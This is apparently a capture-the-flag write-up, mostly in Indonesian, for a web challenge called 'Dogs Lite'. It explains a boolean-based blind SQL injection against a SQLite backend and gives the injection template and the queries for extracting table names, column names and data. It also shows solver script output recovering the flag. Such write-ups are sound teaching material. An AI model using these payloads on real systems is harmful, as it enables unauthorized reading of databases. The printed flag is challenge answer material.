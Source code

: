 # Dogs Lite 🐶

## Description

Under construction my pet dog site

http://20.205.238.7:10125

Author: rootkids#6987

## Hint

- blind huhuhu
- sqlite

## Solve

1. Vulnerability adalah **Blind SQL Injection** (Boolean Based)
2. Ekstraksi database dilakukan dengan query yang valid pada dbms **SQLite**
3. Query injection yang digunakan untuk ekstraksi database adalah sebagai berikut

    ```sql
    ' OR SUBSTR( ( {subquery} ), {index}, 1 ) = '{character}' -- 
    ```
4. Query pada SQLite untuk *subquery* sebagai ekstraksi data

    - Ekstraksi nama tabel

        ```sql
        SELECT name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%'
        ```
    - Ekstraksi nama kolom pada tabel

        ```sql
        SELECT name FROM pragma_table_info('{table_name}')
        ```
    
    - Ekstraksi data pada kolom

        ```sql
        SELECT {column_name} FROM {table_name}
        ```

5. Automasi injection menggunakan script python

    Gunakan script [solve.py](./solver/solver.py) untuk mengekstraksi data pada database

6. Exploit

    - Ekstraksi tabel

        ```bash
        $ python ./solver/solver.py
        QUERY: SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%'

        TRY LETTER at 1: ,
        TRY LETTER at 1: _
        TRY LETTER at 1: {
        TRY LETTER at 1: }
        ...
        TRY LETTER at 18: W
        TRY LETTER at 18: X
        TRY LETTER at 18: Y
        TRY LETTER at 18: Z
        FINAL RESULT IS: users,S3cR3tFl4g5
        ```

    - Ekstraksi kolom pada tabel *S3cR3tFl4g5*

        ```bash
        $ python ./solver/solver.py
        QUERY: SELECT GROUP_CONCAT(name) FROM pragma_table_info('S3cR3tFl4g5')

        TRY LETTER at 1: ,
        TRY LETTER at 1: _
        TRY LETTER at 1: {
        TRY LETTER at 1: }
        ...
        TRY LETTER at 9: W
        TRY LETTER at 9: X
        TRY LETTER at 9: Y
        TRY LETTER at 9: Z
        FINAL RESULT IS: id,value
        ```
    - Ekstraksi kolom *value* pada tabel *S3cR3tFl4g5*

        ```bash
        $ python ./solver/solver.py
        QUERY: SELECT GROUP_CONCAT(value, '') FROM S3cR3tFl4g5

        TRY LETTER at 1: ,
        TRY LETTER at 1: _
        TRY LETTER at 1: {
        TRY LETTER at 1: }
        ...
        TRY LETTER at 33: W
        TRY LETTER at 33: X
        TRY LETTER at 33: Y
        TRY LETTER at 33: Z
        FINAL RESULT IS: KWCTF{d0gsQl1t3_B1inD_1n73c7iOn}
        ```

## Flag

**KWCTF{d0gsQl1t3_B1inD_1n73c7iOn}**